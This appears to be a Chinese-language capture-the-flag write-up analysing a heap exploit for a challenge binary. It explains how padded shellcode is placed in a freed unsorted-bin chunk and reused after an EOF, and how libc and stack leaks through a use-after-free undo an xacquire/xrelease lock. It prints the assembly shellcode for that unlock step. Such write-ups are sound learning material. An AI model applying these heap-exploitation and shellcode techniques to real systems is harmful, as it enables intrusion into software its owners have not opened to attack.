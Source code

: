 x64x6a给出的python脚本十分清晰明了，给服务器总共发送了两次数据。第一次发送1024个字节，第二次通过pwntools库的shutdown函数发送一个EOF.

第一次发送，将构造好的shellcode填充到1024字节，注意此处必须要保证最后的申请空间大于0x400，否则在后面第二次申请堆块时将不会从这次free掉的大堆块中分割空间，因为小于等于0x400字节，这样的堆块free掉之后将会进入tcache bin中，第二次必须申请相同size的chunk才能申请到这一块空间，而第二次由于发送了EOF，只申请了0x50大小的空间，所以要想申请到同一个堆块，就必须让第一次被free掉的堆块落入到unsorted bin中。

第二次发送，通过`pwntools`中的`shutdown()`函数，发送EOF信息，然后循环中将会在此申请一个65+4大小的堆（实际为0x50），这个堆将会直接从unsorted bin中分配，也就是第一次存储了shellcode信息的那个堆块，而此时shellcode相对应的偏移没有变化，这样当跳转实现成功，将会正确执行shellcode。注意，第二次只能发送EOF，原因在于程序读取输入的shellcode时，如果不足1024字节，必须要在最后一个字节为\x00时才会停止读取，而这样就会出现前一次写入的shellcode被\x00截断的情况，无法执行。

到了这里，仍然有一个问题——为什么要发送两次？

这个问题就必须要考虑到xrelease的解锁操作了，从上面的分析可以知道，xacquire将存储第一个随机数处的内存锁上，使用xrelease解锁时，需要将原始随机数的值赋给相应内存将随机数还原，才能解锁，而原始的随机数的值存在于栈上，第一次发送时没有办法寻找到栈的地址，所以发送两次是为了实现一个uaf，想办法泄露libc的地址，再通过libc泄露出栈地址，从而完成解锁操作，顺利执行shellcode。

## exp之shellcode汇编代码分析

`x64x6a`编写了一份汇编代码，用于生成shellcode，其中先通过uaf泄露libc地址和栈地址最终实现解锁的过程，后面的代码先后调用了`syscall_open`，`syscall_read`，`syscall_write`，从而获取flag并回显。

下面仅分析解锁过程，代码如下：

```assembly
section   .text
_start:
    jmp escape
    db 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
escape:
    ; get libc address from heap offset, it's in main arena
    mov rbx,[rel $ -0x18]

    ; calculate environ stack pointer from libc
    sub rbx,-0x23f8
    mov rdx, [rbx]

    ; get first random number from the stack
    mov edx, [rdx-0x584]

    ; load original [rdi] address
    lea rdi, [rel $ -0x87]

    ; end lock elision on [rdi] by storing the original random value
    xrelease mov [rdi], edx

    ; fix up the stack
    mov rsp,[rbx]
    add rsp, -0x18888
```

这里需要说明两次调用时堆的内容。第一次调用时，分配了一个0x450的堆块，如下所示：

```
chunk    +--------> +-------------+-------------+
                    |     		  |             |
                    +---------------------------+
                    |             |             |
                    +---------------------------+
                    |             |             |
                    +---------------------------+
                    |             |             |
                    +-------------+-------------+
                    |        |jmp      AAAA..   |
                    +---------------------------+
                    |AAAA...                    |
                    +---------------------------+
                    |AAAAAA...                  |
escape:  +--------> +---------------------------+
```